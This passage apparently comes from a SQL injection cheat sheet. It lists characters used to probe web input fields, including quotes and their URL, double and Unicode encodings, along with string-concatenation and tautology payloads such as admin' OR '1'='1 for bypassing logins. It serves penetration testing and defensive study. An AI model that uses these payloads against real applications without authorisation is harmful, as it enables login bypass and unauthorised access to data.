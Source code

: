 
* **Error Messages**: Inputting special characters (e.g., a single quote ') into input fields might trigger SQL errors. If the application displays detailed error messages, it can indicate a potential SQL injection point.
  * Simple characters
```sql
    '
    %27
    "
    %22
    #
    %23
    ;
    %3B
    )
    Wildcard (*)
    &apos;  # required for XML content
```
  * Multiple encoding
```sql
    %%2727
    %25%27
```
  * Unicode characters
```
    Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was transformed into U+0022 QUOTATION MARK (")
    Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was transformed into U+0027 APOSTROPHE (')
```

* **Tautology-Based SQL Injection**: By inputting tautological (always true) conditions, you can test for vulnerabilities. For instance, entering `admin' OR '1'='1` in a username field might log you in as the admin if the system is vulnerable.
  * Merging characters
```sql
    `+HERP
    '||'DERP
    '+'herp
    ' 'DERP
    '%20'HERP
    '%2B'HERP
```
  * Logic Testing
```sql
    page.asp?id=1 or 1=1 -- true
    page.asp?id=1' or 1=1 -- true
    page.asp?id=1" or 1=1 -- true
    page.asp?id=1 and 1=2 -- false
```


### Numérico

Payloads
